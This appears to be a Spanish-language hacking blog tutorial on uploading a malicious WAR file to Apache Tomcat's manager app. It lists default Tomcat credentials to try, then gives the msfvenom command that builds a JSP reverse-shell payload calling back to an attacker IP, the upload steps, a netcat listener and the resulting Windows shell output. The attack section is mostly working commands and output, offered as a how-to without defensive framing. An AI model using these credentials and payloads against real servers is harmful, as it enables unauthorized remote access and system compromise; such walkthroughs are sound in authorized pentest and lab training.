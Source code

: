 ```yaml
---
date: 2022-10-29T00:20:05.000Z
layout: post
comments: true
title: Subir archivo malicioso en tomcat
subtitle: 'WAR file'
description: >-
image: >-
    http://imgfz.com/i/rbPl7wv.png
optimized_image: >-
    http://imgfz.com/i/rbPl7wv.png
category: ciberseguridad
tags: 
  - linux
  - hacking
  - exploit
  - vulnerabilidad
  - war
  - default
  - credentials
author: Felipe Canales Cayuqueo
paginate: true
---
```


Apache Tomcat es un servidor web de código abierto y contenedor de Servlet para código Java. En esta ocasión se subirá un archivo por medio del "manager app", en el cual muchas veces contiene alguna de las siguientes credenciales:

|Username     |Password  |
|-------------|----------|
|admin        |password  |
|admin        |<blank>   |
|admin        |Password1 |
|admin        |password1 |
|admin        |admin     |
|admin        |tomcat    |
|both         |tomcat    |
|manager      |manager   |
|role1        |role1     |
|role1        |tomcat    |
|role         |changethis|
|root         |Password1 |
|root         |changethis|
|root         |password  |
|root         |password1 |
|root         |r00t      |
|root         |root      |
|root         |toor      |
|tomcat       |tomcat    |
|tomcat       |s3cret    |
|tomcat       |password1 |
|tomcat       |password  |
|tomcat       |<blank>   |
|tomcat       |admin     |
|tomcat       |changethis|

Si ya obtuvimos acceso al "manager app", debemos crear nuestro payload por medio de ```msfvenom```:

```bash
┌──(root㉿kali)-[/tomcat]
└─ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.23 LPORT=443 -f war -o reverse.war                                       
Payload size: 1085 bytes
Final size of war file: 1085 bytes
Saved as: reverse.war
```

```bash
┌──(root㉿kali)-[/tomcat]
└─ ls
reverse.war
```

Ahora dentro del "manager app" nos dirigimos a la sección "archivo WAR a desplegar" y le damos en "Choose File":

![tomcat1](/images/tomcat.png)

Y seleccionamos el archivo ```reverse.war``` para desplegar:

![tomcat2](/images/tomcatwarupload.png)

Nos ponemos a la escucha con ```netcat``` en el puerto 443:

```bash
┌──(root㉿kali)-[/tomcat]
└─ nc -nlvp 443
listening on [any] 443 ...
```

Y abrimos ```/reverse``` en la tabla de aplicaciones de Tomcat:

![tomcat2](/images/tomcatreversewar.png)


Para finalmente obtener nuestra shell interactiva:

```bash
┌──(root㉿kali)-[/tomcat]
└─ nc -nlvp 443
listening on [any] 443 ...
connect to [172.16.1.5] from (UNKNOWN) [172.16.1.11] 49811
Microsoft Windows [Version 10.0.17763.2114]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Apache Software Foundation\Tomcat 10.0>
```
  
